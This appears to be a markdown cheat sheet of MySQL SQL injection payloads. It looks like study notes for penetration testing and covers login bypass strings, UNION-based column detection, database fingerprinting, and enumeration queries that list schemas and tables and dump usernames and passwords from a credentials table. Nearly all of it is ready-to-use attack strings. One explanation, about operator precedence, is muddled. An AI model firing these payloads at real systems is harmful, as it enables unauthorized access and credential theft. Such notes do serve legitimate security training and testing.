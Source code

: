 ### Auth Bypass Payloads

MySQL evaluates AND before OR, so a query with an OR and a TRUE condition (e.g., `'1'='1`) returns TRUE. Use `admin' or '1'='1` to bypass authentication by ensuring the query evaluates to TRUE while balancing quotes.

| Payload            | Description                     | How It Works                                   |
|--------------------|---------------------------------|------------------------------------------------|
| `'` | Single quote SQLi check | May return error message | useful to see if vulnerable to SQLi |
| `admin' or '1'='1` | Basic Auth Bypass (works if admin is a valid username) | Appends TRUE condition (`'1'='1`) to bypass login check |
| Username:`notadmin' or '1'='1` Password: `something' or '1'='1` | Basic Auth Bypass (works when username not known) | This works since the query evaluate to true irrespective of the username or password |
| `admin')-- -`      | Basic Auth Bypass With Comments | Closes query early with `)` and comments out rest with `--`, the additional ` -` ensures the comments are activited by forcing a space after them |

[Payload all the things: authentication bypass section](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass)

**Note:**  Line comments with `--` or `#`, in-line comment with `/**/`.

### Union Injection

[Union Clause](https://dev.mysql.com/doc/refman/8.0/en/union.html)

| Payload | Description |
|---------|-------------|
| `' order by 1-- -` | Detect number of columns using order by, increment the integer until error states column does not exist |
| `cn' UNION select 1,2,3-- -` | Detect number of columns using Union injection, try a different numbers of columns until we get a success, using numbers as junk data will show which columns are displayed, however data type must match, NULL matches all data types |
| `cn' UNION select 1,@@version,3,4-- -` | Basic Union injection to show DB version, with 'cn' as search query | 
| `' UNION SELECT 1,user(),3,4-- -` | Basic Union injection to show which user we are making the query as | 
| `' UNION select username, 2, 3, 4 from passwords-- -` | Union injection for 4 columns to get username from the passwords table |

### DB Enumeration

#### MySQL Fingerprinting

| Payload          | When to Use                  | Expected Output                           | Wrong Output                              |
|------------------|------------------------------|-------------------------------------------|-------------------------------------------|
| `SELECT @@version` | Full query output            | MySQL Version (e.g., 10.3.22-MariaDB-1ubuntu1) | MSSQL returns MSSQL version; errors in others. |
| `SELECT POW(1,1)`  | Numeric output only          | 1                                         | Errors in other DBMS.                     |
| `SELECT SLEEP(5)`  | Blind/No output              | Delays response 5 seconds, returns 0      | No delay in other DBMS.                   |

| Payload | Description |
|---------|-------------|
| `cn' UNION select 1,database(),3,4-- -` | Current database name  |
| `cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -` | List all databases (mysql, information_schema and performance_schema are default MySQLdatabases ) |
| `cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -` | List all tables in a specific database |
| `cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -` | List all columns in a specific table |
| `cn' UNION select 1, username, password, 4 from dev.credentials-- -` | Dump data from a table in another database |
